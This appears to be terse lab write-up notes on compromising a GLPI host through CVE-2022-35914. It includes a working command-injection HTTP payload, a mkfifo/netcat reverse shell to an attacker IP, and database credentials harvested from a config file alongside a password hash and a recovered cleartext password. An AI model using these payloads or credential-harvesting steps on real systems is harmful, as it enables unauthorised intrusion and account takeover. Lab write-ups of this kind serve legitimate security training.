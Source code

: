 #Pwned! 
```
192.168.208.242
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP

https://github.com/noxlumens/CVE-2022-35914_poc/blob/main/CVE-2022-35914.py
https://github.com/Digitemis/GLPIScan
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007111121.png?raw=true)
```
POST //vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1

...
&hhook=array_map&text=call_user_func&hexec=passthru&spec[0]=&spec[1]=id&sid=947ekfk0o3aa2umtra329pr5um
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007111001.png?raw=true)
```
&hhook=array_map&text=call_user_func&hexec=passthru&spec[0]=&spec[1]=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+192.168.45.200+80+>/tmp/f&sid=947ekfk0o3aa2umtra329pr5um
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007112056.png?raw=true)


# PrivEsc

## Manual
```
/var/www/glpi/config/config_db.php:   public $dbpassword = 'glpi_db_password';                                       
/var/www/glpi/config/config_db.php:   public $dbuser = 'glpi'; 
```

```
mysql -u glpi --password='glpi_db_password'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007113912.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007114110.png?raw=true)

```
$2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa
```

```
select * from glpi_itilfollowups;
```

SnowboardSkateboardRoller234

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007120302.png?raw=true)

```
wget http://localhost:8080/ -S
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007121934.png?raw=true)


## Automated

### Peass
etc/alternatives/my.cnf
-rw-r--r-- 1 root root 601 Jan 24  2023 /etc/ssh/ssh_host_dsa_key.pub                                                                                                                                                                      
-rw-r--r-- 1 root root 173 Jan 24  2023 /etc/ssh/ssh_host_ecdsa_key.pub                                                                                                                                                                    
-rw-r--r-- 1 root root 93 Jan 24  2023 /etc/ssh/ssh_host_ed25519_key.pub                                                                                                                                                                   
-rw-r--r-- 1 root root 565 Jan 24  2023 /etc/ssh/ssh_host_rsa_key.pu

/var/www/glpi/vendor/tecnickcom/tcpdf/examples/data/cert/tcpdf.crt
### Mimikatz


